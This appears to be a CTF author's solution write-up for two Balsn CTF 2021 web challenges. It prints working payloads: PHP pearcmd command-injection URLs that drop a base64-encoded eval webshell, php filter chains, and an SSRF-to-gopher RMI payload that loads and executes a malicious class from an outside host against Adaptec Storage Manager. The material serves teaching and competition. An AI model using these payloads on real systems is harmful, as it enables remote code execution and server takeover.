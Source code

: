 # Balsn CTF 2021

# 2linephp

- Difficulty: ★
- Type: Web
- Solved: 8 / 284
- Tag: Warmup, PHP

## Source Code

- [2linephp](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2021/2linephp/)

## Solution

In 2020, I have made a similar challenge in a chinese CTF (巅峰极客2020 - MeowWorld).

But the difference is that we can't use http/https and our webshell should start with `<?php`.

### Intened Solution
- `/?+channel-discover+kaibro.tw/302.php?&kaibro=/usr/local/lib/php/pearcmd`
    - 302.php will redirect to http://kaibro.tw/test.php
    - pear will download test.php to `/tmp/pear/temp/test.php`

### Unintended Solution

There are many interesting unintended solutions :D

- sol1 - command injection (from 0daysober)
    - `/?+install+-R+&kaibro=/usr/local/lib/php/pearcmd&+-R+/tmp/other+channel://pear.php.net/Archive_Tar-1.4.14`
    - `/?+bundle+-d+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/+/tmp/other/tmp/pear/download/Archive_Tar-1.4.14.tgz+&kaibro=/usr/local/lib/php/pearcmd&`
    - `/index.php?+svntag+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/Archive_Tar+&kaibro=/usr/local/lib/php/pearcmd&'`
- sol2 - php filter (from 10sec)
    - `/?+config-create+/&eHh4eD4qKipQRDl3YUhBZ2MzbHpkR1Z0S0NSZlIwVlVXMk50WkYwcE96czdQejRn<&kaibro=/usr/local/lib/php/pearcmd&/<meow>+/tmp/meoww.php`
    - `/?kaibro=php%3a//filter/read=string.strip_tags%7Cconvert.base64-decode%7Cstring.strip_tags%7Cconvert.base64-decode/resource=/tmp/meoww&cmd=/readflag`
- and more!

## Writeups

- TBD

---

## 4pple Music

- Difficulty: ★★
- Type: Web
- Solved: 2 / 284
- Tag: Java, RealWorld, BlackBox, Pentesting

## Source Code

- [4pple Music](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2021/4ppleMusic/)

## Solution

1. Find the SSRF vulnerability

```
POST /index.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Connection: close

url=http://kaibro.tw
```

2. Port Scanning to `flagserver.local`

There are many open ports on `flagserver.local`, like `34571`, `34572`, ...

If you visit http://flagserver.local:34572, you will see the following response:

```
<OBJECT
    NAME = "%APPLICATION%"
    classid = "clsid:8AD9C840-044E-11D1-B3E9-00805F499D93"
    codebase = "http://java.sun.com/products/plugin/autodl/jinstall-1_4_2_05-windows-i586.cab#Version=1,4,1,3"
    WIDTH = 100% HEIGHT = 100% >
    <PARAM NAME=CODE VALUE=com.ibm.sysmgt.raidmgr.mgtGUI.Launch>
    <PARAM NAME="type" VALUE="application/x-java-applet;jpi-version=1.4.2_05">
    <PARAM NAME="scriptable" VALUE="false">
    <PARAM NAME="cache_option" VALUE="Plugin">
    <PARAM NAME="cache_archive" VALUE="RaidManS.jar">
    <PARAM NAME="progressbar" value="true">
    <PARAM NAME="boxmessage" value="Loading %APPLICATION% ...">
    <PARAM NAME="progresscolor" value="blue">
    <PARAM NAME="image" value="help/scan_l.gif">
    <PARAM NAME="bgColor" VALUE="FFFFFF">
    <COMMENT>
	<EMBED
            NAME= "StorageManager"
            type = "application/x-java-applet;jpi-version=1.4.2_05"
            CODE = com.ibm.sysmgt.raidmgr.mgtGUI.Launch
            WIDTH = 100%
            HEIGHT = 100%
	        scriptable="false"
	        pluginspage="http://java.sun.com/getjava"
            image="/help/scan_l.gif"
            cache_option="Plugin"
            cache_archive="RaidManS.jar"
            progressbar="true"
            boxmessage="Loading %APPLICATION%..."
            progresscolor="blue"
            bgColor="FFFFFF">
	    <NOEMBED>
        Your browser can not load the Sun Java Applet Plugin...
        </NOEMBED>
	</EMBED>
    </COMMENT>
</OBJECT>
```

Try to google these keywords, and you will find `Adaptec Storage Manager`.

(The 404 page also tell you this is Adaptec Storage Manager Server: `Adaptec Storage Manager File Server:  Error 404.`)

So our target is to pwn this Adaptec Storage Manager server!

3. Attack RMI

If you [install Adaptec Storage Manager](https://adaptec.com/en-us/downloads/storage_manager/sm/productid=sas-3085&dn=adaptec+raid+3085.html) on your local machine or decompiling the RaidManS.jar, you will find that 34571 port is **RMI Registry** Service.

Next, you can send RMI packet with `gopher://` to verify it:

```
url=gopher://flagserver.local:34571/_JRMI%2500%02K%2500%2500%2500%2500%2500%2500
```

->

```
N
172.18.0.3�z
```

Next step is to attack this RMI service and find the flag.

Because this service is very old, so the jdk is very likely to be old too.

(In the old jdk version, if RMI can't find the class, it will try to load the class from the codebase.)

So we can try to attack the codebase, setting the codebase to our server:

```
gopher://flagserver.local:34571/_JRMI%2500%2502K%2500%2500%2500%2500%2500%2500P%25AC%25ED%2500%2505w%2522%2500%2500%2500%2500%2500%2500%2500%2502%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%25F6%25B6%2589%258D%258B%25F2%2586Cur%2500%2518%255BLjava.rmi.server.ObjID%253B%2587%2513%2500%25B8%25D0%252Cd%257E%2502%2500%2500pxp%2500%2500%2500%2500w%2508%2500%2500%2500%2500%2500%2500%2500%2500sr%2500%2510kaibro.RMILoader%2500%2500%2500%2500%2500%2500%2500%2501%2502%2500%2500t%2500%2516http%253A%252F%252F30cm.club%252F%252F%252F%252F%252F%252Fxpw%2501%2500%250A
```

This payload will download my malicious class file from `http://30cm.club/kaibro/RMILoader.class` and execute it!

=> RCE!



Note: you should use correct jdk version to compile this malicious class, you can simply send a http request to your server and observe the user-agent to know the jdk version of the RMI service:

`HTTP/1.1" 200 1395 "-" "Java/1.6.0_16"`


<br>

(Actually, this is a realworld case reproduced. Maybe it is boring, but I think it is suitable for people to learn how to attack RMI in realworld.)

## Writeups
- TBD
